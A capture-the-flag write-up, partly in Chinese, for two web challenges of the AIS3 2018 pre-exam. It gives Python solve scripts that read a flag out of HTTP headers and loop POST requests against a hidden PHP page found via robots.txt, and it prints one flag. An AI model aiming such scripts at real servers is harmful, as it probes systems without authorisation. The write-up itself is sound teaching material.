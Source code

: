 # AIS3 2018 Pre-exam

Author: WeiYu < zxc41329 [at] gmail.com >

Date: 2018.06.02

- 這一次沒太多時間打 CTF，就變成玩一玩 Web 題目~

![Rank](/rank.png)

## Web 1 
    warm up web challenge.

    http://104.199.235.135:31331
#### 透過 header 去抓取 flag
- web1.py
``` python 
#!/usr/bin/env python
import subprocess

flag = ''

for id in range(0, 45):
    command = ('curl -i  http://104.199.235.135:31331/index.php?p=' + str(id))
    content = subprocess.check_output(command, shell=True)
    flag += content[content.find('Content-Length')-3]
    
print(flag)
```

The flag is `AIS3{g00d! u know how 2 check H3AD3R fie1ds.}`


## Web 2 - hidden
    Hmm ... no flag here!

    http://104.199.235.135:31332
#### 透過 `robots.txt` 可以發現 `_hidden_flag_.php`
![](https://i.imgur.com/bcgcXw6.png)

- web2.py
``` python 
#!/usr/bin/env python
import urllib
import urllib2

url = 'http://104.199.235.135:31332/_hidden_flag_.php'
values = {'c' : '1', 's' : '3241b876891b9ea67db897e940db6ea9e7e351447546b8da82bbf3693dfe9ebb' }
 
for i in range(0, 99999):
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    response = urllib2.urlopen(req)
    f = response.info().getheader('Flag')
    page = response.read()

    t = page.find('name="c" value="') + 16
    values['c'] = page[t:page.find('"', t)]
 
    t = page.find('name="s" value="') + 16
    values['s'] = page[t: page.find('"', t)]
    print values

```